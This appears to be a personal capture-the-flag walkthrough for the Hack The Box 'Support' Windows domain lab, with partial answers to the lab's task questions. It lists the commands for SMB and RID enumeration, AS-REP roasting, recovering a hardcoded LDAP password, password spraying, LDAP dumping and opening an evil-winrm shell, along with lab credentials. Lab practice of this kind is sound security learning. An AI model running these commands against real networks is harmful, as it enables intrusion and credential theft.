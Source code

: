 HTB - Support (Easy) 
AD/Windows

**nmap**
`sudo nmap -p- -Pn -T5 10.10.11.174 -oN nmap`



---
**SMB**

check shares with `netexec
`nxc smb rhost -u '' -p '' --shares`

check shares with `anonymous/guest` user
`nxc smb rhost -u 'anonymous' -p '' --shares`
![[Pasted image 20250506122620.png]]

we can see ``IPC`` is a `Relative Identifier (rid)` so we can bruteforce it
to enumerate users
`nxc smb rhost -u 'anonymous' -p '' --rid-brute
make a txt file of users

**asreproast**
steal asrep hashes of users
``impacket-GetNPUsers -request -dc-ip rhost -userfile ./users.txt support.htb``

nvm, it's useless anyway so dont bother
![[Pasted image 20250506130040.png]]

we can also see `support-tools` is also readable, so we can see its contents
`smbclient -U anonymous //rhost/support-tools`

---
**getting LDAP credentials**
install `mono` in your PC, if you dont have it yet, 
go to `https://www.mono-project.com/docs/getting-started/install/linux/`
after that, open wireshark and capture packets,
and then run the binary using 
`sudo wine UserInfo.exe`
in wireshark, look for packet that says `bindRequest` and you can find the credential

![[Pasted image 20250506180441.png]]

**verify credential**
check if other users uses the same password
`nxc smb rhost -u users.txt -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --continue-on-success`

use netexec to check ldap permission on shares
`nxc smb rhost -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --shares`

check for passwords on user description
it is important because some of the admins dont realize that other users can see user description and sometimes they put the user password there
`nxc smb rhost -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' --users`

shows nothing
![[Pasted image 20250506185438.png]]


**bloodhound**
`nxc smb rhost -u 'ldap' -p pass.txt --bloudhound -c all --dns-server rhost`
OR
`bloodhound-python -c all -u ldap -p pass.txt -d support.htb -ns rhost`

**LDAP**
`ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"`

it's messy. you can output it to txt file and grep
`ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" > ldapsearch.txt`

something's interesting in one of it's user bearing `info` tag
`cat ldapsearch.txt | grep info`
![[Pasted image 20250506190914.png]]

**verify credential 2**
`nxc smb rhost -u users.txt -p 'Ironside47pleasure40Watchful' --continue-on-success`
the account `support` uses that password

**dump shares with support user**
`nxc smb 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful' --shares    `

**connect and spawn shell**
`evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'`


---
<h3>QUESTIONS</h3>
Task 1: How many shares is Support showing on SMB?
`6`
  
Task 2: Which share is not a default share for a Windows domain controller?
`support-tools`

Task 3: Almost all of the files in this share are publicly available tools, but one is not. What is the name of that file?
`UserInfo.exe.zip`

Task 4: What is the hardcoded password used for LDAP in the `UserInfo.exe` binary?
